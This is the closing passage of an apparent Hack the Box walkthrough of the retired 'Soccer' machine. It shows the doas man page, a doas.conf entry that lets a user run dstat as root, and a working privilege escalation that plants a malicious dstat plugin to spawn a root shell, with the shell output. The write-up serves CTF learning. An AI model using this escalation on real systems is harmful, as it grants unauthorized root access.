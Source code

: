     -S          Same as -s but simulates a full login. Please note this may result in doas applying resource limits to the user based on the target user's login class. However, environment variables applicable to the target user
                 are still stripped, unless KEEPENV is specified.

     -s          Execute the shell from SHELL or /etc/passwd.

     -u user     Execute the command as user.  The default is root.  Please note: On some systems multiple usernames can resolve to one UID. For example, root and toor both resolve to UID 0 on FreeBSD. Please see the "as" syntax
                 section of the doas.conf manual page for details on how doas handles this situation.

     --          Any dashes after a combined double dash (--) will be interpreted as part of the command to be run or its parameters. Not an argument passed to doas itself.

EXIT STATUS
     The doas utility exits 0 on success, and >0 if an error occurs.  It may fail for one of the following reasons:

     •   The config file /usr/local/etc/doas.conf could not be parsed.
     •   The user attempted to run a command which is not permitted.
     •   The password was incorrect.
     •   The specified command was not found or is not executable.

SEE ALSO
     su(1), doas.conf(5)

HISTORY
     The doas command first appeared in OpenBSD 5.8.

AUTHORS
     Ted Unangst <tedu@openbsd.org>

BSD                                                       
{% endhighlight %}

Looking at doas.conf I see I am able to run `dstat` as root. 

{% highlight console %}
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
{% endhighlight %}

Looking up dstat on [gtfo bins](https://gtfobins.github.io/gtfobins/dstat/) I find a suitable privilege escalation.  I just need to replace sudo with the doas command.
{% highlight console %}
player@soccer:~$ echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
player@soccer:~$ doas /usr/bin/dstat --xxx
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# cat root.txt |wc
      1       1      33

{% endhighlight %}

## Conclusion

“Soccer” is an example of one of the many intriguing challenges available on Hack the Box. I intend to publish walkthroughs of future retired boxes as I continue using the platform to broaden my knowledge.


